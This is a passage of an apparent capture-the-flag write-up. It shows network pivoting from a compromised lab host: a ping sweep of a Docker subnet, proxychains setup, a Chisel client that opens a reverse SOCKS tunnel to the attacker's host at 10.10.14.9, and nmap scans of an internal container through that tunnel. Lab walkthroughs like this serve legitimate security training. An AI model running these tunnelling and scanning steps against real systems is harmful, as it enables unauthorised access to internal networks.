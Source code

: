 ````bash
james@trickster:~$ for i in {1..254}; do (ping -c 1 172.17.0.$i | grep "bytes from" &); done
64 bytes from 172.17.0.1: icmp_seq=1 ttl=64 time=0.081 ms
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.080 ms
````

**Chisel** is a fast TCP/UDP tunnel, transported over HTTP/2, that allows you to create a secure and reliable tunnel through firewalls or NATs. It is commonly used for pivoting, allowing attackers to bypass network restrictions and gain access to internal systems. Chisel is lightweight and supports multiple connections, making it a useful tool for penetration testers and red teamers when tunneling traffic between machines.

Next, we open our `proxychains` configuration and add the `socks5` proxy."

````bash
nano /etc/proxychains4.conf
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5 127.0.0.1 1080
````

After that, we can start our Chisel server on our machine.

````bash
❯ chisel server --reverse -p 8000

2025/01/31 12:59:05 server: Reverse tunnelling enabled
2025/01/31 12:59:05 server: Fingerprint BCG1n7qYcwa7wple3bNHI+l8YtR2YtoQoH83VqOnA1E=
2025/01/31 12:59:05 server: Listening on http://0.0.0.0:8000
````

Then, we transfer the Chisel binary to the target machine to start a Chisel client and connect it to our machine.

````bash
james@trickster:/tmp$ ./chisel client 10.10.14.9:8000 R:socks
2025/01/31 12:03:40 client: Connecting to ws://10.10.14.9:8000
2025/01/31 12:03:41 client: Connected (Latency 46.915879ms)
````

Now, we can analyze the Docker container more comfortably from our machine. In retrospect, this could have been done more easily by using a simple script to scan ports from the target machine and then setting up port forwarding. However, as a best practice, I believe it is better to perform enumeration from our machine using **Chisel** or **Ligolo**.

````bash
❯ proxychains nmap -sT -Pn --top-ports 6000 -open -T5 -v -n 172.17.0.2 2>/dev/null

Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-31 13:19 CET
Initiating Connect Scan at 13:19
Nmap scan report for 172.17.0.2
Host is up (0.13s latency).
Not shown: 4999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
5000/tcp open  upnp
------------------------------------------------------------------------------------------
❯ proxychains nmap -sT -Pn -sCV -p 5000 172.17.0.2 2>/dev/null

PORT     STATE SERVICE VERSION
5000/tcp open  http    Python http.server 3.5 - 3.10
| http-title: Change Detection
|_Requested resource was /login?next=/
````
